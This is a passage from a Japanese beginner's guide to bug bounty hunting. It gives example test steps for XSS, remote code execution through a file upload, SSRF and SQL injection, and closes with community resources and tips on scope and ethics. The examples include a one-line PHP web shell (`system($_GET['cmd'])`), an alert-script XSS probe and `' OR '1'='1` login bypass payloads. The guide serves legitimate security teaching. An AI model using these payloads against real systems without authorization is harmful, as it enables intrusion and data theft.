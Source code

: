 例：  
`<script>alert('Test')</script>` を検索ボックスに入力  
アラートが出れば脆弱性あり  

### 例2：リモートコード実行（RCE）
1. 入力箇所を探す  
2. ファイルアップロードテスト  
3. コマンド実行  
```php
<?php system($_GET['cmd']); ?>
```
4. 出力確認  
5. 報告  

例：  
`shell.php` に `<?php phpinfo(); ?>` を記述しアップロード  
`/uploads/shell.php` にアクセス  

### 例3：サーバサイドリクエストフォージェリ（SSRF）
1. URLパラメータ特定  
2. 悪意あるURL注入  
3. レスポンス確認  
4. 報告  

例：  
`?url=http://localhost` に変更  

### 例4：SQLインジェクション（SQLi）
1. 入力フィールド特定  
2. ペイロード注入  
```sql
' OR '1'='1
```
3. レスポンス確認  
4. 報告  

例：  
`admin' OR '1'='1` と入力  
ログインできたら脆弱性あり  

---
## ## ステップ5：コミュニティから学ぶ
- **Write-Up**
- **フォーラムやDiscord**
- **ブログ・動画**
  - Security Weekly
  - The Bug Bounty Hub
  - LiveOverflow

---
## ## バグバウンティ成功のコツ
1. **スコープ理解**  
2. **最新情報を追う**  
3. **倫理的に行動**  
4. **記録を残す**  
5. **自動化の使い所を見極める**

---